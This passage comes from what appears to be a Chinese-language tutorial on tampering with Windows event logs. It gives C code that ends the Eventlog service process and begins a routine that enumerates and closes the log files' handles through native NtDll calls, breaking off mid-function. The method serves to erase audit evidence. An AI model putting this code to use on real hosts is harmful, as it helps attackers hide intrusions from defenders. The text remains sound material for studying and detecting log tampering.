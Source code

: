 ```
	if (bResult == NULL)
	{
		printf("[!]Error\n");
		return -1;
	}
	printf("Done\n");

	return 0;
}
```

**注：**

结束Eventlog服务对应的进程后，隔一段时间后Eventlog服务会自动重启

## 0x05 释放文件句柄
---

结束Eventlog服务对应的进程后，还需要释放日志文件的句柄，才能够获得文件的修改权限

**实现思路：**

1.利用NtQuerySystemInformation查询SystemHandleInformation获得所有进程的句柄信息
2.挑选出日志进程中的所有句柄
3.释放句柄

关键代码如下：

```
BOOL CloseFileHandle(LPWSTR buf1, DWORD pid)
{
	NTSTATUS status;
	PSYSTEM_HANDLE_INFORMATION handleInfo;
	ULONG handleInfoSize = 0x10000;
	HANDLE processHandle = NULL;
	ULONG i;
	DWORD ErrorPID = 0;
	SYSTEM_HANDLE handle = { 0 };

	_NtQuerySystemInformation NtQuerySystemInformation = (_NtQuerySystemInformation)GetProcAddress(GetModuleHandleA("NtDll.dll"), "NtQuerySystemInformation");
	if (!NtQuerySystemInformation)
	{
		printf("[!]Could not find NtQuerySystemInformation entry point in NTDLL.DLL");
		return 0;
	}
	_NtDuplicateObject NtDuplicateObject = (_NtDuplicateObject)GetProcAddress(GetModuleHandleA("NtDll.dll"), "NtDuplicateObject");
	if (!NtDuplicateObject)
	{
		printf("[!]Could not find NtDuplicateObject entry point in NTDLL.DLL");
		return 0;
	}
	_NtQueryObject NtQueryObject = (_NtQueryObject)GetProcAddress(GetModuleHandleA("NtDll.dll"), "NtQueryObject");
	if (!NtQueryObject)
	{
		printf("[!]Could not find NtQueryObject entry point in NTDLL.DLL");
		return 0;
	}

	handleInfo = (PSYSTEM_HANDLE_INFORMATION)malloc(handleInfoSize);
	while ((status = NtQuerySystemInformation(SystemHandleInformation, handleInfo, handleInfoSize, NULL)) == STATUS_INFO_LENGTH_MISMATCH)
		handleInfo = (PSYSTEM_HANDLE_INFORMATION)realloc(handleInfo, handleInfoSize *= 2);
```